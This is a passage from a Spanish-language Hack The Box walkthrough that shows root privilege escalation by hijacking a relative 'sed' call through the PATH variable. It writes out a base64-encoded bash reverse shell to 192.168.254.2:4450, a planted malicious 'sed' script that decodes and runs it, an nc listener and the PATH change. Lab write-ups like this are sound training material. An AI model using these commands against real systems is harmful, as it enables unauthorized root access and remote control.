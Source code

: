 Algunas referencias por si algo:

* [Hijacking Relative Paths in SUID Programs](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e).
* [Linux Privilege Escalation Using PATH Variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

Listos, pues juguemos con la instrucción `sed`, directamente intentemos obtener una **Reverse Shell**, con todo lo dicho/visto antes, deberíamos obtenerla como el usuario `root`:

(Evitamos problemitas)

```bash
www-data@pki:/tmp/test$ echo "bash -i >& /dev/tcp/192.168.254.2/4450 0>&1" | base64   
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4yLzQ0NTAgMD4mMQo=
```

Creamos archivo malicioso:

```bash
www-data@pki:/tmp/test$ echo 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4yLzQ0NTAgMD4mMQo= | base64 -d | bash' > sed
www-data@pki:/tmp/test$ cat sed 
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4yLzQ0NTAgMD4mMQo= | base64 -d | bash
www-data@pki:/tmp/test$ chmod +x sed
```

Entonces cuando lea este archivo, tomara la cadena, la decodeara y la interpretara (:

Antes de que se nos olvide, nos ponemos en escucha con la máquina `.2` sobre el puerto `4450`:

```bash
www-data@web:/tmp/test$ ./nc -lvp 4450
listening on [any] 4450 ...
```

Y en la `.3` finalmente modificamos nuestra variable `PATH`:

```bash
www-data@pki:/tmp/test$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@pki:/tmp/test$ old_path=$PATH  # La guardamos por si algo
www-data@pki:/tmp/test$ export PATH=/tmp/test:$PATH  # Primero la nuestra y le concatenamos la anterior
www-data@pki:/tmp/test$ echo $PATH
/tmp/test:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Perfecto, lo único que queda es interactuar con el binario y rezarle a diosito para que funcione :P

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_ersatool_hijackingDONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Se queda pegadoooooooooooooooooooooo yyyyyyyyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_rootPKI_RevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

VAMOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO, tamos dentrooooooooo :))))))))

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355google_gif_yeahBEARdance.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 70%;"/>
